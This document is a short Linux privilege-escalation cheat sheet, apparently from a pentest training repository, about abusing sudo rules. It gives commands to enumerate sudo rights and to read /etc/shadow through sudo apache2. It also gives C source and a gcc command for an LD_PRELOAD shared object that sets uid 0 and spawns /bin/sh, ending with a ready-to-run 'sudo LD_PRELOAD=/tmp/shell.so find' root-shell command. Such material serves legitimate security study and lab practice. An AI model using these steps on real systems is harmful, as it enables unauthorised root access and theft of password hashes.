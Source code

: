                                       
                                              
                                              
                                              
                                              
 ## Sudo Enumeration 
 
 
   
                 sudo -l
                 sudo --version
                 sudo apache2 -f /etc/shadow
                 
                 
		 
		 
		 
   ## Sudo resource		 
   
   https://gtfobins.github.io/
   
   
   
   
   
   
   
   ### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

## And Type Command 
   
      sudo -l
   
## And Output 

        Matching Defaults entries for TCM on this host:
        env_reset, env_keep+=LD_PRELOAD

      User TCM may run the following commands on this host:
           (root) NOPASSWD: /usr/sbin/iftop
           (root) NOPASSWD: /usr/bin/find
           (root) NOPASSWD: /usr/bin/nano
           (root) NOPASSWD: /usr/bin/vim
           (root) NOPASSWD: /usr/bin/man
           (root) NOPASSWD: /usr/bin/awk
           (root) NOPASSWD: /usr/bin/less
           (root) NOPASSWD: /usr/bin/ftp
           (root) NOPASSWD: /usr/bin/nmap
           (root) NOPASSWD: /usr/sbin/apache2
           (root) NOPASSWD: /bin/more

Execute any binary with the LD_PRELOAD to spawn a shell : 
          `sudo LD_PRELOAD=<full_path_to_so_file> <and Type NOPASSWD program name just vim,nano,apache2,ftp,find etc >`
	  , e.g: `sudo LD_PRELOAD=/tmp/shell.so find`




